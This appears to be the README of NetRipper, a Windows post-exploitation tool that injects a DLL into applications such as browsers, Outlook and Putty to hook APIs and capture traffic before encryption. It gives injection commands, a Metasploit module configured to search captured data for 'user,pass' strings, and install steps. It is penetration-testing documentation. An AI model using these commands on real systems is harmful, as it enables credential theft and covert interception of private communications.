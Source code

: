 # Description

NetRipper is a post exploitation tool targeting Windows systems which uses API hooking in order to intercept network traffic and encryption related functions from a low privileged user, being able to capture both plain-text traffic and encrypted traffic before encryption/after decryption. 

NetRipper was released at Defcon 23, Las Vegas, Nevada.

# Abstract

The post-exploitation activities in a penetration test can be challenging if the tester has low-privileges on a fully patched, well configured Windows machine. This work presents a technique for helping the tester to find useful information by sniffing network traffic of the applications on the compromised machine, despite his low-privileged rights. Furthermore, the encrypted traffic is also captured before being sent to the encryption layer, thus all traffic (clear-text and encrypted) can be sniffed. The implementation of this technique is a tool called NetRipper which uses API hooking to do the actions mentioned above and which has been especially designed to be used in penetration tests, but the concept can also be used to monitor network traffic of employees or to analyze a malicious application.

# Tested applications

NetRipper should be able to capture network traffic from: Putty, WinSCP, SQL Server Management Studio, Lync (Skype for Business), Microsoft Outlook, Google Chrome, Mozilla Firefox. The list is not limited to these applications but other tools may require special support.

# Components

```
NetRipper.exe - Configures and inject the DLL  
DLL.dll       - Injected DLL, hook APIs and save data to files  
netripper.rb  - Metasploit post-exploitation module
```

# Command line

```
Injection: NetRipper.exe DLLpath.dll processname.exe  
Example:   NetRipper.exe DLL.dll firefox.exe  

Generate DLL:

  -h,  --help          Print this help message  
  -w,  --write         Full path for the DLL to write the configuration data  
  -l,  --location      Full path where to save data files (default TEMP)  

Plugins:

  -p,  --plaintext     Capture only plain-text data. E.g. true  
  -d,  --datalimit     Limit capture size per request. E.g. 4096  
  -s,  --stringfinder  Find specific strings. E.g. user,pass,config  

Example: NetRipper.exe -w DLL.dll -l TEMP -p true -d 4096 -s user,pass  
```

# Metasploit module

```
msf > use post/windows/gather/netripper 
msf post(netripper) > show options

Module options (post/windows/gather/netripper):

   Name          Current Setting                  Required  Description
   ----          ---------------                  --------  -----------
   DATALIMIT     4096                             no        The number of bytes to save from requests/responses
   DATAPATH      TEMP                             no        Where to save files. E.g. C:\Windows\Temp or TEMP
   PLAINTEXT     true                             no        True to save only plain-text data
   PROCESSIDS                                     no        Process IDs. E.g. 1244,1256
   PROCESSNAMES                                   no        Process names. E.g. firefox.exe,chrome.exe
   SESSION                                        yes       The session to run this module on.
   STRINGFINDER  user,login,pass,database,config  no        Search for specific strings in captured data
```

Set PROCESSNAMES and run.

# Metasploit installation (Kali)

1. cp netripper.rb /usr/share/metasploit-framework/modules/post/windows/gather/netripper.rb
2. mkdir /usr/share/metasploit-framework/modules/post/windows/gather/netripper
3. g++ -Wall netripper.cpp -o netripper
4. cp netripper /usr/share/metasploit-framework/modules/post/windows/gather/netripper/netripper
5. cd ../Release
6. cp DLL.dll /usr/share/metasploit-framework/modules/post/windows/gather/netripper/DLL.dll

# PowerShell module

@HarmJ0y Added Invoke-NetRipper.ps1 PowerShell implementation of NetRipper.exe

# Plugins

1. PlainText - Allows to capture only plain-text data
2. DataLimit - Save only first bytes of requests and responses
3. Stringinder - Find specific string in network traffic

# To do

- Support multiple applications
- Support for x64 processes
- Thread-safe API hooking
- Monitor loading of DLLs and new processes

Any suggestion is appreciated!

# Author

Ionut Popescu, Senior Security Consultant at KPMG Romania
